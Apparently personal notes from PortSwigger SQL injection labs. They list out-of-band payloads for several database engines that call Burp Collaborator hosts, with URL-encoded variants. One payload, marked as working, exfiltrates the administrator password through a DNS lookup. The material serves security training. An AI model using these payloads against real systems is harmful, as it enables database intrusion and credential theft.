 
dgxhj8l3vb1aq615i35pw9gd248vwk.burpcollaborator.net
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://burpcollaborator.net/

Potential Payloads for out of band interaction
```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://burpcollaborator.net/"> %remote;]>'),'/l') FROM dual; -- -
'; SELECT UTL_INADDR.get_host_address(‘dgxhj8l3vb1aq615i35pw9gd248vwk.burpcollaborator.net) FROM dual;-- -
';exec master..xp_dirtree '//burpcollaborator.net/a'; -- -
';copy (SELECT '') to program 'nslookup burpcollaborator.net'; -- -
';LOAD_FILE('\\\\nslookup burpcollaborator.net\\a');SELECT ... INTO OUTFILE '\\\\nslookup burpcollaborator.net\a';-- -
```

```
%27%3Bcopy%20%28SELECT%20%27%27%29%20to%20program%20%27nslookup%20burpcollaborator.net%27%3B%20--%20-

%27%3BLOAD_FILE%28%27%5C%5C%5C%5Cnslookup%20burpcollaborator.net%5C%5Ca%27%29%3BSELECT%20...%20INTO%20OUTFILE%20%27%5C%5C%5C%5Cnslookup%20burpcollaborator.net%5Ca%27%3B--%20-
```

Solution - Checked Ans

`x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`


### Blind SQL injection with out-of-band data exfiltration
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

7u2k2p0pcj42mehq1bywoe9v2m8cw1.burpcollaborator.net

https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration

```x%27%20UNION%20SELECT%20EXTRACTVALUE%28xmltype%28%27%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20root%20%5B%20%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2F7u2k2p0pcj42mehq1bywoe9v2m8cw1.burpcollaborator.net%2F%22%3E%20%25remote%3B%5D%3E%27%29%2C%27%2Fl%27%29%20FROM%20dual--
-> Worked

x%27%20UNION%20SELECT%20EXTRACTVALUE%28xmltype%28%27%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20root%20%5B%20%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2F%2F%27%7C%7C%28SELECT%20password%20FROM%20users%20WHERE%20username%3D%27administrator%27%29%7C%7C%27.7u2k2p0pcj42mehq1bywoe9v2m8cw1.burpcollaborator.net%2F%22%3E%20%25remote%3B%5D%3E%27%29%2C%27%2Fl%27%29%20FROM%20dual--
```
/
![](https://i.imgur.com/LcBbNKh.png)

zqem1rz5519l9ene3k2a


### SQL injection with filter bypass via XML encoding
https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding
